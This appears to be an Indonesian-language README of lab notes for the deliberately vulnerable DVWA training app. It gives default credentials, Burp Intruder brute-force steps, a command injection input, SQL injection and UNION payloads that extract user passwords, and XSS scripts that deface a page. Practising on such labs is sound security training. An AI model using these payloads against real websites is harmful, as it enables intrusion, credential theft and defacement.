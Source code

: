 # DVWA - Damn Vulnerable Web Application

**URL:** [https://dvwa.al3xzer0.cfd/login.php](https://dvwa.al3xzer0.cfd/login.php)
**Writeup Referensi:** [infosecwriteups.com](https://infosecwriteups.com/writeups-for-damn-vulnerable-web-application-dvwa-ba42a43afca1)
**Credentials:**

```
Username: admin  
Password: password
```

---

## Security Level: **Low**

### 🔐 Brute Force (Login Page)

#### 🔧 Tools: Burp Suite

1. Capture request login menggunakan **Burp Proxy**.
2. Kirim ke **Intruder**.
3. Gunakan tipe **Cluster Bomb**.
4. Payload 1: isikan username (`admin`), Payload 2: list password.
5. Gunakan fitur **Grep - Match**, tambahkan teks yang muncul saat login berhasil (misal: `Welcome to the password protected area`).
6. Jalankan **Start Attack (Simple)**.

---

### 🢨 Command Injection

**Contoh Input:**

```bash
8.8.8.8
8.8.8.8; ls
```

**Keterangan:**
Perintah kedua akan melakukan injection dan menjalankan `ls` setelah ping ke 8.8.8.8.

---

### 💞 SQL Injection

**Basic SQL Injection:**

```sql
' OR 1 = 1 #
```

**Advanced (Union-based) SQL Injection:**

```sql
' UNION SELECT user, password FROM users #
```

---

## xss
```bash
<script>   document.body.innerHTML = `     <div style="height:100vh;background:black;color:lime;display:flex;justify-content:center;align-items:center;flex-direction:column;">       <h1 style="font-size:3em;">Hacked by muzaki</h1>       <p style="font-size:1.5em;">This page was defaced using XSS</p>     </div>   `; </script>

<script>
  const defaceDiv = document.createElement("div");
  defaceDiv.style = "height:100vh;background:black;color:lime;display:flex;justify-content:center;align-items:center;flex-direction:column;margin-top:20px;";
  defaceDiv.innerHTML = `
    <h1 style="font-size:3em;">Hacked by muzaki</h1>
    <p style="font-size:1.5em;">This page was defaced using XSS</p>
  `;
  document.body.appendChild(defaceDiv);
</script>

<script>
document.body.innerHTML+=`<div style="height:100vh;background:black;color:lime;display:flex;justify-content:center;align-items:center;flex-direction:column;margin-top:20px;"><h1>Hacked by muzaki</h1><p>This page was defaced</p></div>`;
</script>
```

## open redirect


## crypto
```bash
Your new password is: Olifant
```
